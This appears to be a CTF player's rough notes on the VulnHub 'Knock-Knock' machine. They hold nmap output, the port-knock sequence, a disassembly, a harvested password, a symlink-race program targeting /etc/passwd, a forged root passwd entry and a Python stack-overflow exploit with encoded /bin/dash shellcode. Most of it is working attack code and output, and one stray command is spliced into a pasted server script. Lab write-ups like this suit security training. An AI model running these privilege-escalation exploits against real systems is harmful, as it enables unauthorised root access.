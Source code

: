 <http://barrebas.github.io/blog/2014/10/16/rop-rop-for-knock-knock/>

<https://leonjza.github.io/blog/2014/10/14/knock-knock-whos-there-solving-knock-knock/>

<https://blog.knapsy.com/blog/2014/10/16/knock-knock-vm-walkthrough/>

<https://blog.techorganic.com/2014/10/16/knock-knock-hacking-challenge/>


Description : 
  - Pretty much thought of a pretty neat idea I hadn't seen done before with a VM, and I wanted to turn it into reality!
  - Your job is to escalate to root, and find the flag.
  - Since I've gotten a few PM's, remember: There is a difference between "Port Unreachable" and "Host Unreachable". DHCP is not broken ;)
  - Gotta give a huge shoutout to c0ne for helping to creating the binary challenge, and rasta_mouse and recrudesce for testing :)
  - Also, gotta thank barrebas who was able to find a way to make things easier... but of course that is fixed with this update! ;)
  - Feel free to hit me up in #vulnhub on freenode -- zer0w1re



└─$ sudo nmap -sT -A -Pn -n -T4 192.168.110.37

└─$ sudo nmap -sT -A -Pn -n -T4 192.168.110.37                                                                                                         1 ⨯
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-21 10:39 CEST
Warning: 192.168.110.37 giving up on port because retransmission cap hit (6).
Stats: 0:03:08 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 27.40% done; ETC: 10:50 (0:08:15 remaining)
Stats: 0:06:19 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 54.90% done; ETC: 10:50 (0:05:11 remaining)
Nmap scan report for 192.168.110.37
Host is up (0.71s latency).
All 1000 scanned ports on 192.168.110.37 are closed (907) or filtered (93)
MAC Address: 08:00:27:67:FB:B5 (Oracle VirtualBox virtual NIC)
Too many fingerprints match this host to give specific OS details
Network Distance: 1 hop

TRACEROUTE
HOP RTT       ADDRESS
1   712.07 ms 192.168.110.37
└─$ sudo nmap -sT -A -Pn -n -T4 192.168.110.37
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-21 11:21 CEST
Warning: 192.168.110.37 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.110.37
Host is up (0.0023s latency).
Not shown: 914 closed ports, 84 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.0p1 Debian 4+deb7u2 (protocol 2.0)
| ssh-hostkey: 
|   1024 21:22:d9:55:d4:8c:16:8f:be:ee:48:27:68:6d:6e:a0 (DSA)
|   2048 5b:07:d3:dd:81:70:92:b7:c0:92:78:23:64:9e:45:0c (RSA)
|_  256 af:79:f1:28:f4:7f:5a:d7:c4:31:9b:d9:b1:cc:05:f4 (ECDSA)
80/tcp open  http    nginx 1.2.1
|_http-server-header: nginx/1.2.1
|_http-title: Let's go




└─$ nc 192.168.110.37 1337
[22022, 5628, 59755]
[56080, 40195, 47917]

for x in 56080, 40195, 47917; do nmap -Pn --host-timeout 201 --max-retries 0 -p $x 192.168.110.37; done


N  2 root@knockknock    Thu Sep 25 12:11   24/813   Cron <root@knockknock> /root/start.sh



Dump of assembler code for function main:
   0x08048924 <+0>:     push   ebp
   0x08048925 <+1>:     mov    ebp,esp
   0x08048927 <+3>:     and    esp,0xfffffff0
   0x0804892a <+6>:     sub    esp,0x10
   0x0804892d <+9>:     cmp    DWORD PTR [ebp+0x8],0x3
   0x08048931 <+13>:    je     0x804893a <main+22>
   0x08048933 <+15>:    call   0x80485ec <banner>
   0x08048938 <+20>:    jmp    0x8048966 <main+66>
   0x0804893a <+22>:    mov    eax,DWORD PTR [ebp+0xc]
   0x0804893d <+25>:    add    eax,0x8
   0x08048940 <+28>:    mov    edx,DWORD PTR [eax]
   0x08048942 <+30>:    mov    eax,DWORD PTR [ebp+0xc]
   0x08048945 <+33>:    add    eax,0x4
   0x08048948 <+36>:    mov    eax,DWORD PTR [eax]
   0x0804894a <+38>:    mov    DWORD PTR [esp+0x4],edx
   0x0804894e <+42>:    mov    DWORD PTR [esp],eax
   0x08048951 <+45>:    call   0x80486e6 <cryptFile>
   0x08048956 <+50>:    test   eax,eax
   0x08048958 <+52>:    je     0x8048966 <main+66>
   0x0804895a <+54>:    mov    DWORD PTR [esp],0x8048b38
   0x08048961 <+61>:    call   0x8048480 <puts@plt>
   0x08048966 <+66>:    mov    eax,0x0
   0x0804896b <+71>:    leave  
   0x0804896c <+72>:    ret    
End of assembler dump.


Jason
jB9jP2knf


```c
# cat race.c
#     * rm -f out.tfc
#     * ln -sf /etc/passwd out.tfc

#include <unistd.h>
int main(int argc, char *argv[]) {
    while (1) {
        unlink("/home/jason/out.tfc"); 
        symlink("/etc/passwd", "/home/jason/out.tfc");
    }  
   
}


```

```bash
$ mkpasswd --method=SHA-512 happy
$6$jv7OO9IEjzW$5dscUrUn6N0N0SrIpybyV22YR5eZt8xNftf23clYK9Zr3bS2oooTl4ZZqPds0Th/ofAfeHk1eKzo9LbsnrlrX/

#cat passwd.tfc
bttai:$6$jv7OO9IEjzW$5dscUrUn6N0N0SrIpybyV22YR5eZt8xNftf23clYK9Zr3bS2oooTl4ZZqPds0Th/ofAfeHk1eKzo9LbsnrlrX/:0:0:root:/root:/bin/bash

```
```bash
./tfc passwd.tfc in.tfc
./tfc in.tfc out.tfc
```


```python
# cat crpt.py 
#/usr/bin/python
from struct import pack


# /*
# *  Shellcode length: 49 
# *  Author: Chroniccommand 
# *  /bin/dash
# *  My first attempt at shellcode
# *  Poison security
# */
# #include<stdio.h>
# //49 bytes 
# char shellcode[] =  "\xeb\x18\x5e\x31\xc0\x88\x46\x09\x89\x76\x0a"
#                     "\x89\x46\x0e\xb0\x0b\x89\xf3\x8d\x4e\x0a\x8d"
#                     "\x56\x0e\xcd\x80\xe8\xe3\xff\xff\xff\x2f"
#                     "\x62\x69\x6e\x2f\x64\x61\x73\x68\x41\x42\x42"
#                     "\x42\x42\x43\x43\x43\x43";
# int main(){
#  printf("Shellcode length: 49 bytes\nAuthor:chroniccommand\nPoison security");
#  int *ret;
#  ret = (int *)&ret + 2;
#  (*ret) = (int)shellcode;
# }
shellcode =  "\xeb\x18\x5e\x31\xc0\x88\x46\x09\x89\x76\x0a"
shellcode += "\x89\x46\x0e\xb0\x0b\x89\xf3\x8d\x4e\x0a\x8d"
shellcode += "\x56\x0e\xcd\x80\xe8\xe3\xff\xff\xff\x2f"
shellcode += "\x62\x69\x6e\x2f\x64\x61\x73\x68\x41\x42\x42"
shellcode += "\x42\x42\x43\x43\x43\x43"

key = [0x2f,0x25,0xc0,0xa9,0x27,0xba,0x70,0x80,0xc5,0xc7,0x01,0x37,0xed,0xde,0xae,0x78]

def p(v):
        return pack('<L', v)

d  = 4096 * 'A'
d += 32 * 'B'
# h4x@kali:~/knockknock$ msfelfscan -j esp tfc 
# [tfc]
# 0x08048bb3 jmp esp
# 0x08048bb3 jmp esp
d += p(0x08048bb3)
d += 28 * '\x90'

for i in range(len(shellcode)):
        if ((ord(shellcode[i]) != 0) and (ord(shellcode[i]) ^ key[i % 16] != 0)):
                d += chr((ord(shellcode[i]) ^ key[i % 16]) & 0xFF)

open('cbuff.txt','wb').write(d)


```
```python

# cat server.py
#!/usr/bin/env python3
import socket
import random
import subprocess
import time
import os

host = ''
port = 1337
backlog = 5
size = 1024

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind((host,port))
s.listen(backlog)

while 1:
        client, address = s.accept()
        data = []
        for i in range(3):
                data.append(random.randrange(1,65535))

        knockd_conf =  "[options]\n"
        knockd_conf += "\tlogfile = /var/log/knockd.log\n\n"
        knockd_conf += "[openSSH]\n"
        knockd_conf += "\tsequence = "
        knockd_conf += str(data[0]) + "," + str(data[1]) + "," + str(data[2]) + "\n"
        knockd_conf += "\tseq_timeout = 5\n"
        knockd_conf += "\tcommand = /sbin/iptables -I INPUT -s %IP% -p tcp -m multiport --dport 22,80 -j ACCEPT\n"
        knockd_conf += "\ttcpflags = syn\n"

        f = open('/etc/knockd.conf','w')
        f.write(knockd_conf)
        f.close()
        knockd_restart = ['/usr/sbin/service', 'knockd', 'restart']
        subprocess.call(knockd_restart, shell=False)
./tfc cbuff.tfc t.tfc

        if data:
                random.shuffle(data)
                client.send(bytes(str(data) + "\n","utf-8"))
        client.close()


```
```bash

# cat start.sh
#!/bin/bash
if ps aux | grep "[s]erver.py" > /dev/null
then
        echo running > /dev/null
else
        python3 /root/server.py
fi

```


# Buffer oveflow a faire
